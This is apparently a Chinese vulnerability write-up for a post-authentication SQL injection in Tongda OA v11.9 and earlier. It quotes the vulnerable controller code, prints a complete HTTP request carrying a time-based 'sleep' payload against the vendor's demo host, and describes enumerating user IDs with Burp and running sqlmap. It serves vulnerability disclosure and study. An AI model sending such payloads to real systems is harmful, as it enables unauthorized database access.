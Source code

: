 # 通达OA v11.9 后台SQL注入漏洞

## 漏洞描述

通达OA v11.9 及以下版本中由于某些参数过滤不完善导致后台存在SQL注入漏洞

## 漏洞影响

> [!NOTE]
>
> 通达OA <=  v11.9

## 环境搭建

```
https://cdndown.tongda2000.com/oa/2019/TDOA11.9.exe
```

双击安装

![](image/tongdaoa-1.png)

## 漏洞复现

漏洞文件位 **webroot/general/appbuilder/modules/portal/controllers/WorkbenchController.php**

```
public function actionUpsharestatus()
	{
		Yii::$app->response->format = yii\web\Response::FORMAT_JSON;
		$data = modules\appdesign\models\AppUtils::toGBK($_POST);

		if (modules\portal\controllers\intval($data["uid"]) == $_SESSION["LOGIN_UID"]) {
			modules\portal\models\PortalWorkbench::updateAll(array("state" => "{$data["status"]}"), "id={$data["id"]}");
		}
		else if ($data["status"] == 1) {
			modules\portal\models\PortalWorkbenchState::deleteAll(array("wids" => "{$data["id"]}", "uid" => "{$_SESSION["LOGIN_UID"]}"));
		}
		else {
			$Work = new modules\portal\models\PortalWorkbenchState();
			$Work->wids = $data["id"];
			$Work->uid = $_SESSION["LOGIN_UID"];
			$Work->save();
		}

		$dataBack = array("status" => 1, "msg" => modules\portal\controllers\_("操作成功"));
		$dataBack = modules\appdesign\models\AppUtils::toUTF8($dataBack);
		return $dataBack;
	}
```

![](image/tongdaoa-42.png)

其中 **updateAll()** 函数并没有使用防止 SQL注入的 **sql_injection()** 来防止注入

**webroot/inc/conn.php**

![](image/tongdaoa-43.png)

所以这里就出现了 id 参数存在注入的情况，请求包如下

```
POST /general/appbuilder/web/portal/workbench/upsharestatus HTTP/1.1
Host: oa.tongda2000.com
Connection: close
Content-Length: 36
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Origin: https://oa.tongda2000.com
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://oa.tongda2000.com/general/appbuilder/web/portal/workbench/upsharestatus
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: __root_domain_v=.tongda2000.com; SID_12=5ea03399; USER_NAME_COOKIE=chenqiang; Hm_lvt_7cbefde9059536a2b96aaafc134d625c=1617014067,1617196083; _qddaz=QD.677915359373668; PHPSESSID=nso4iqhvp2qi464eoavk2fn0c0; OA_USER_ID=chenqiang; SID_15=ded66d80; LAST_OPERATION_TIME=1617242241
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1

uid=15&status=1&id=1;select sleep(4)
```

注意 uid参数 要为当前用户的uid才能完成请求，可以使用 burp 遍历查看时间响应

例如这里使用官网的测试账户 uid 遍历出为 15

![](image/tongdaoa-45.png)

如果uid错误则不会出现时间延迟，将请求包放入 Sqlmap跑一下

![](image/tongdaoa-46.png)

